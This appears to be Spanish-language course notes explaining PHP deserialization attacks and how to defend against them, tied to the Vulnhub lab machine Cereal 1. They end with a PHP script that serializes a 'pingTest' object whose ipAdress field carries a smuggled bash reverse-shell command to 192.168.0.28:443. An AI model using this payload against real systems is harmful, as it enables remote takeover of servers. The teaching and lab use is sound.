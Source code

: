 ```yaml
---
title: Ataques de Deserialización
---
```

Los **ataques de deserialización** son un tipo de ataque que aprovecha las vulnerabilidades en los procesos de **serialización** y **deserialización** de objetos en aplicaciones que utilizan la programación orientada a objetos (**POO**).

La serialización es el proceso de convertir un objeto en una secuencia de **bytes** que puede ser almacenada o transmitida a través de una red. La deserialización es el proceso inverso, en el que una secuencia de bytes es convertida de nuevo a un objeto. Los ataques de deserialización ocurren cuando un atacante puede manipular los datos que se están deserializando, lo que puede llevar a la **ejecución de código malicioso** en el servidor.

Los ataques de deserialización pueden ocurrir en diferentes tipos de aplicaciones, incluyendo aplicaciones web, aplicaciones móviles y aplicaciones de escritorio. Estos ataques pueden ser explotados de varias maneras, como:

-   Modificar el objeto serializado antes de que sea enviado a la aplicación, lo que puede causar errores en la deserialización y permitir que un atacante ejecute código malicioso.
-   Enviar un objeto serializado malicioso que aproveche una vulnerabilidad en la aplicación para ejecutar código malicioso.
-   Realizar un ataque de “**man-in-the-middle**” para interceptar y modificar el objeto serializado antes de que llegue a la aplicación.

Los ataques de deserialización pueden ser muy peligrosos, ya que pueden permitir que un atacante tome el control completo del servidor o la aplicación que está siendo atacada.

Para evitar estos ataques, es importante que las aplicaciones validen y autentiquen adecuadamente todos los datos que reciben antes de deserializarlos. También es importante utilizar bibliotecas de serialización y deserialización seguras y actualizar regularmente todas las bibliotecas y componentes de la aplicación para corregir posibles vulnerabilidades.

A continuación se os proporciona el enlace directo a la máquina de Vulnhub donde explotamos un ‘**PHP Deserialization Attack**‘:

-   **Máquina Cereal 1**: [https://www.vulnhub.com/entry/cereal-1,703/](https://www.vulnhub.com/entry/cereal-1,703/)

------
### 
``` php
<?php

class pingTest {
    public $ipAdress = "; bash -c 'bash -i >& /dev/tcp/192.168.0.28/443 0>&1'";
    public $isValid = True;
    public $output = "";
}

echo urlencode(serialize(new pingTest));
```